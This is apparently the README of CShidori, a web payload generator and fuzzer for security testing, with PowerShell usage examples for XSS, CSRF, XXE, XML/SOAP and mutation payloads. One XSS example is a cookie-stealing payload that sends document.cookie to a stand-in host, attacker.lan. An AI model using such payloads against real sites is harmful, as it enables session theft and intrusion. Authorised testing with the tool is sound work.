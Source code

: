 # CShidori

Web payloads generator and fuzzer helper

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user�s responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

## Payloads generation

- Fuzzing list
- XSS
- JSON
- XML
- SOAP
- XSD
- GET
- CSRF
- XXE
- Mutation
- Encoding

## Exemples

### Combine a wordlist with Chidori to test a specific parameter:

```powershell
gc wordlist.txt |%{ .\CShidori.exe xss "$_" }
gc wordlist.txt |%{ .\CShidori.exe mut 5 "$_" }
```

### Generate get/post requests to tests

```powershell
.\CShidori.exe bc |%{ .\CShidori.exe get "?bar=foo&foo=bar" $_ }
.\CShidori.exe bc |%{ .\CShidori.exe json request.json $_ }
```

### Generate a xml request from an xsd file and test all parameters

```powershell
.\CShidori.exe xsd schema.xsd > request.xml
.\CShidori.exe bc |%{ .\CShidori.exe xml request.xml $_ }   
```

### Send the generated payloads with Ffuf through Burp

```powershell
.\CShidori.exe bc > list ; .\ffuf.exe -u https://target/FUZZ -w list:FUZZ -replay-proxy http://127.0.0.1:8080
```

## Usage

### XSS / Injections

```powershell
.\CShidori.exe xss 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe json ..\testing\test.json "'"
```

### XML

```powershell
.\CShidori.exe xml ..\testing\exemple.xml "'"
```

### SOAP

```powershell
.\CShidori.exe soap ..\testing\exemple-helloservice.wsdl
```

### XSD

```powershell
.\CShidori.exe xsd ..\testing\exemple.xsd
```

### GET

```powershell
.\CShidori.exe get "?bar=foo&foo=bar" "'"
```

### CSRF

```powershell
.\CShidori.exe csrf post http://target.lan "name1=value1&name2=value2"
.\CShidori.exe csrf get http://target.lan "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe xxe file
.\CShidori.exe xxe call 
.\CShidori.exe xxe all
```

### Mutation

```powershell
.\CShidori.exe mut 5 test
```

### Encode

```powershell
.\CShidori.exe enc "<script>alert(1)</script>"
```

## Miscellaneous scripts

### CShidori-Spring.ps1

Security hotspots, endpoints, parameters and wsdl grabber from Spring projects

```powershell
. .\Spring-parser.ps1
Get-SpringArtefact -source .\project\repository -output .
```